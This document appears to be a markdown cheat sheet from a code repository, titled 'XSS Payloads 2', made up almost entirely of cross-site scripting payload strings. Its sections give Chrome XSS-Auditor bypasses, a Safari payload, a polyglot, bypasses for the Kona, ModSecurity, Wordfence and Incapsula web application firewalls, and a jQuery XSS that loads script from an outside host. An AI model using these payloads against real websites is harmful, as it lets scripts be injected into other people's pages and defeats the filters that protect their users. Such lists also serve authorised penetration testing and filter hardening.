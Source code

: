 # XSS Payloads 2

## Chrome XSS-Auditor Bypass

```html
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

## Chrome < v60 beta XSS-Auditor Bypass

```html
<script src="data:,alert(1)%250A-->
```

## Otros Chrome XSS-auditor bypasses

```html
<script>alert(1)</script
```
```html
<script>alert(1)%0d%0a-->%09</script
```
```html
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

## Safari XSS

```html
<script>location.href;'javascript:alert%281%29'</script>
```

## XSS Polyglot

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## Kona WAF Bypass

```html
\');confirm(1);//
```

## ModSecurity WAF Bypass

```html
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

## Wordfence XSS Bypasses

```html
<meter onmouseover="alert(1)"
```
```html
'">><div><meter onmouseover="alert(1)"</div>"
```
```html
>><marquee loop=1 width=0 onfinish=alert(1)>
```

## Incapsula WAF Bypasses

```html
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
```
```html
<img/src=q onerror='new Function`al\ert\`1\``'>
```

## jQuery < 3.0.0 XSS

```html
$.get('http://sakurity.com/jqueryxss')
```